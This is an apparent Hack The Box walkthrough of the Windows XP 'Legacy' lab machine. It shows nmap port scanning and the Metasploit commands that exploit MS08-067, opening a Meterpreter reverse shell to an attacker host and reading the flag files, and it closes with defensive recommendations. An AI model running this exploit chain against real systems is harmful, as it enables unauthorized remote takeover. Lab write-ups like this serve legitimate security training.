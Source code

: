 # HTB - Legacy

**IP Address:** `10.10.10.4`  
**OS:** Windows XP  
**Difficulty:** Easy  
**Tags:** #SMB, #MS08-067, #Metasploit, #Windows-Exploitation

---
## Synopsis

Legacy is an easy Windows machine running **Windows XP**, an outdated and unsupported operating system.  
The exploitation path takes advantage of the well-known **MS08-067** vulnerability in the SMB service, which allows remote code execution and direct system compromise.

---
## Skills Required

- Basic Windows service enumeration  
- Familiarity with Metasploit exploitation  

## Skills Learned

- Identifying vulnerable SMB versions  
- Exploiting the **MS08-067** RCE vulnerability with Metasploit  
- Gaining SYSTEM-level access on outdated Windows machines  

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Verify if the host is alive using ICMP:

```bash
ping -c 1 10.10.10.4
```

![](GitHubv2/HackTheBox/EASY/Legacy/screenshots/ping.png)

The host responds, confirming it is reachable.

---
### 1.2 Port Scanning

Scan all TCP ports to identify exposed services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.4 -oG allPorts
```

- `-p-`: Scan all 65,535 ports  
- `--open`: Show only open ports  
- `-sS`: SYN scan  
- `--min-rate 5000`: Increase speed  
- `-Pn`: Skip host discovery (already confirmed alive)  
- `-oG`: Output in grepable format

![](GitHubv2/HackTheBox/EASY/Legacy/screenshots/allports.png)

Extract open ports:

```bash
extractPorts allPorts
```

![](GitHubv2/HackTheBox/EASY/Legacy/screenshots/extractports.png)

---
### 1.3 Targeted Scan

Run a deeper scan with version detection and default scripts:

```bash
nmap -p135,139,445 -sC -sV 10.10.10.4 -oN targeted
```

- `-sC`: Run default NSE scripts  
- `-sV`: Detect service versions  
- `-oN`: Output in human-readable format  

Let's check the result:

```bash
cat targeted -l java
```

![](GitHubv2/HackTheBox/EASY/Legacy/screenshots/targeted.png)

**Findings:**

| Port | Service | Description                          |
|------|---------|--------------------------------------|
| 135  | MS RPC  | Microsoft RPC endpoint mapper        |
| 139  | NetBIOS | Legacy SMB session service           |
| 445  | SMB     | Microsoft Windows SMB file sharing   |

- The target OS is identified as **Windows XP**  
- SMB service is accessible, even for **guest** users  

---
## 2. Exploitation

Searching for known vulnerabilities affecting Windows XP SMB, we find **MS08-067**:  

🔗 [Microsoft Security Bulletin MS08-067](https://support.microsoft.com/en-us/topic/ms08-067-vulnerability-in-server-service-could-allow-remote-code-execution-ac7878fc-be69-7143-472d-2507a179cd15)  

This vulnerability allows **Remote Code Execution** via the SMB service.  
We exploit it using Metasploit:

```bash
msfconsole
search ms08_067
```

![](screenshots/msfconsole_ms08_067.png)

Configure and run the exploit:

``` bash
use exploit/windows/smb/ms08_067_netapi
set rhosts 10.10.10.4
set lhost 10.10.14.8
set lport 4444
set payload windows/meterpreter/reverse_tcp
exploit
```

![](GitHubv2/HackTheBox/EASY/Legacy/screenshots/exploit_run.png)

✅ We obtain a shell with SYSTEM privileges.

---
## 3. Post-Exploitation

### 3.1 User Flag

The user flag is saved in `john` user inside the `Documents and Settings`directory:

```bash
type C:\Documents and Settings\john\Desktop\user.txt
```

![](GitHubv2/HackTheBox/EASY/Legacy/screenshots/user_flag.png)

✅ **User flag obtained**

---
### 3.2 Root Flag

We are root, so we can go to `Administrator` directory for the root flag:

```bash
type C:\Documents and Settings\Administrator\Desktop\root.txt
```

![](GitHubv2/HackTheBox/EASY/Legacy/screenshots/root_flag.png)

✅ **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Port Scanning** → Detected SMB services on Windows XP  
2. **Vulnerability Identification** → MS08-067 SMB exploit available  
3. **Metasploit Exploitation** → Remote code execution as SYSTEM  
4. **Post-Exploitation** → Retrieved user and root flags  

---
## Defensive Recommendations

- **Decommission unsupported OS**: Windows XP is end-of-life and must be removed from production.  
- **Patch SMB vulnerabilities**: Apply security updates for SMB services (MS08-067).  
- **Network Segmentation**: Isolate legacy systems from the internet or sensitive networks.  
- **Monitor SMB traffic** for anomalous activity.
